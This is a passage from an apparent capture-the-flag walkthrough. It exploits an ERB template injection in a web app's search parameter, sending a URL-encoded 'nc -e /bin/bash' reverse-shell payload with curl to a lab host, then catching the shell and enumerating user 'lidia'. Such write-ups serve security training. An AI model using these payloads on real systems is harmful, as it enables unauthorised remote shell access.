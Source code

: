 <🔄 Alternative Step.>

`nc -lnvp 4444`:
```
listening on [any] 4444 ... ←
```

`burpsuite` > `Decoder`

`Input`:
```
<%= `nc 192.168.56.118 4444 -e /bin/bash` %>
```
`Output`:
```
%3c%25%3d%20%60%6e%63%20%31%39%32%2e%31%36%38%2e%35%36%2e%31%31%38%20%34%34%34%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%60%20%25%3e
```

`curl -k "https://192.168.56.133:3000/search?query=TEST&message=%3c%25%3d%20%60%6e%63%20%31%39%32%2e%31%36%38%2e%35%36%2e%31%31%38%20%34%34%34%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%60%20%25%3e" -s`

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.133] 58310 ←
```

`SHELL=/bin/bash script -q /dev/null`

</🔄 Alternative Step.>

![Victim: lidia](https://img.shields.io/badge/Victim-lidia-64b5f6?logo=linux&logoColor=white)

`id`:
```
lidia ←
```

`id`:
```
uid=1000(lidia) gid=1000(lidia) groups=1000(lidia),100(users),1002(rvm) ←
```

`uname -a`:
```
Linux hacktoys 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64 GNU/Linux
```

`lsb_release -a`:
```
Distributor ID: Debian
Description:    Debian GNU/Linux 12 (bookworm)
Release:        12
Codename:       bookworm
```

`cd /home/lidia`

`ls -alps ./`:
```
total 36
4 drwx------ 5 lidia lidia 4096 May 21 15:38 ./
4 drwxr-xr-x 4 root  root  4096 May 20 15:14 ../
0 lrwxrwxrwx 1 root  root     9 May 20 16:26 .bash_history -> /dev/null
4 -rw-r--r-- 1 lidia lidia  220 May 20 15:14 .bash_logout
4 -rw-r--r-- 1 lidia lidia 3526 May 20 15:14 .bashrc
4 drwxr-xr-x 3 lidia lidia 4096 May 20 15:14 .bundle/
4 -rw------- 1 lidia lidia   20 May 20 15:14 .lesshst
4 drwxrwxr-x 3 lidia lidia 4096 May 20 15:14 .local/
4 -rw-r--r-- 1 lidia lidia  807 May 20 15:14 .profile
4 drwx------ 2 lidia lidia 4096 May 21 15:38 .ssh/
```
